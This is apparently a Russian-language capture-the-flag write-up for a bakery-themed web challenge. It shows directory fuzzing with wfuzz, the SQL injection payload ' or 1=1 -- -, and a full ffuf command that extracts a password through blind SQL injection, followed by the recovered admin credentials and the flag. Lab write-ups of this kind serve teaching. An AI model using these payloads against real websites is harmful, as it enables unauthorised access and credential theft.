





# Пирожки

Ну вот опять описание забыл...

Пусть будет: Очень люблю когда пирожки можно достать с помощью SQL injection

# WriteUp
1.  Встречает страничка Булошной



На одной из страниц бинарный текст



Да... Опять этот ****** фаззинг ...

Декодирование дает подсказку

2.  Начинаем фазить директории, например wfuzz словарем directory-list-2.3-medium.txt
Находим директорию JS, а в ней файл profootball.txt



Здесь видим намек на слепую SQL

3.  Находим уязвимое поле ввода путем ввода полезной нагрузки ‘ or 1=1 -- -



можно перебирать так же FFUZ побуквенно название таблиц, колонок и содержимого

```bash
ffuf -u "http://sqlbrute/index.php" -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "check=%27+or+substring((select base64_pw from passwords limit 2,1), WFUZZ, 1)='HFUZZ'--+-" -c -t 130 -w bukvy.txt:HFUZZ -w length.txt:WFUZZ -mc all -fs N
```

Находим пароль админа VVRyeUhhY2tSREdDVEYhPz8/IT8hPw==
<br>Декодируем и получаем UTryHackRDGCTF!???!?!?

4.  Входим в «админку» с логином admin и паролем UTryHackRDGCTF!???!?!?



# Flag
RDGCTF{U_can_do_fuzz_and_blinde_SQL}